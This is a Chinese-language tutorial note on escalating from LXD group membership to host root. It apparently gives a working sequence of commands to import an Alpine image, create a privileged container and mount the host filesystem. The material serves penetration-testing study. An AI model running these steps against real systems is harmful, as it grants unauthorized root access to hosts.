







# 参考

[看我如何利用LXD实现权限提升 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/216803.html)


# alpine镜像项目地址

https://github.com/saghul/lxd-alpine-builder


# 介绍

LXD linux容器守护进程是一个管理容器的系统，它基于LXC（Linux Containers）提供了一种更高层次的管理工具。


虽然LXD提供了隔离和资源管理的功能，但在某种情况下，简单的配置或逻辑漏洞可能会使得攻击者能够从容器提升到宿主机进行提权。


通过适当的操作，本地lxd组的用户成员可以将自己的权限提升为主机操作系统的root权限


这种特性与该用户是否已被授权sudo权限无关，而且全程也无需用户输入密码

 

在某些情况下，LXD甚至不会对调用它的用户权限进行检查和匹配，因此有很多方法利用LXD的这种特性来实施攻击


其中一项技术就是使用LXD API来将目标主机的根文件系统加载进一个容器中，一旦成功，攻击者就可以将低权限的用户提升为root权限，并且能够在不受任何限制的情况下访问目标系统的各种数据资源


执行id



显示有lxd，即是LXD的组成员


# 提权过程

首先将构建好的alpine镜像克隆至本地

执行"build-alpine"命令完成最新版本的Alpine镜像构建，此操作必须由root用户完成；

将tar.gz文件上传至目标

```
gti clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```


这时会在当前目录产生一个tar.gz文件，然后将这个文件上传至靶机

将镜像添加进LXD

```
lxc image import ./alpine-v3.12-x86_64-20201014_1128.tar.gz --alias myimage
```

--alias 为该容器起一个别名


在创建容器之前，要初始化lxd，不然会报错

```
lxd init
```

开启LXD 的初始化进程




```
lxc init myimage ignite -c security.privileged=true
```



```
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```



```
 lxc start ignite
```



```
lxc exec ignite /bin/sh
```



```
id
```



提权成功